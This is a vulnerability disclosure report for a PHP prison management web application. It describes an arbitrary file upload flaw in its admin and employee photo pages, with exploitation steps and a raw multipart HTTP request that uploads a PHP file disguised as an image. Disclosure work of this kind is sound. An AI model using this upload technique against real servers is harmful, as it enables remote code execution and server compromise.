 # Prison Management System Using PHP has arbitrary file upload vulnerability

BUG_Author:

AoBo Li
Affected version:

Prison Management System Using PHP V1.0
Vendor:

Fast5
Software:

https://www.sourcecodester.com/sql/17287/prison-management-system.html
Vulnerability File:

/Employee/edit-photo.php

/Admin/add-admin.php


Description:

**1. Vulnerability Description**

The application allows authenticated users to upload files to the server. However, the file upload mechanism does not properly validate the file types being uploaded. As a result, it is possible to upload executable files, which can then be executed on the server.

**2. Proof of Concept (PoC)**

The following steps demonstrate how to exploit the arbitrary file upload vulnerability:

1. **Log in as admin or user,if log in as admin goto add-admin.php, if log in as user goto edit-photo.php.they are same.**
2. **Navigate to the file upload feature.**
3. **Upload a malicious file with a disguised extension (e.g., 1.jpg).**
4. **Rename it to a malicious extension file (e.g., 1.php).**
5. **The application saves the file on the server without proper validation.**
6. **Access the uploaded file via a direct URL and execute it.**

![image-20240925204658976](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925204658976.png)

The data packet is as follows

```
POST /prison/Admin/add-admin.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------356316614838182701192715677466
Content-Length: 828
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/prison/Admin/add-admin.php
Cookie: PHPSESSID=jrvn8lh2tgi6mdfm6qlpuastm1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtusername"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtfullname"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtpassword"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="txtphone"

test
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png
<?php
phpinfo()>
?>
-----------------------------356316614838182701192715677466
Content-Disposition: form-data; name="btncreate"


-----------------------------356316614838182701192715677466--

```

![image-20240925205346343](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925205346343.png)

![image-20240925210016665](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925210016665.png)

![image-20240925205632083](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20240925205632083.png)

**3. Impact**

The impact of this vulnerability can be severe. An attacker can upload and execute arbitrary code on the server, leading to:

- Unauthorized access to the server.
- Data leakage or manipulation.
- Server compromise and potential lateral movement within the network.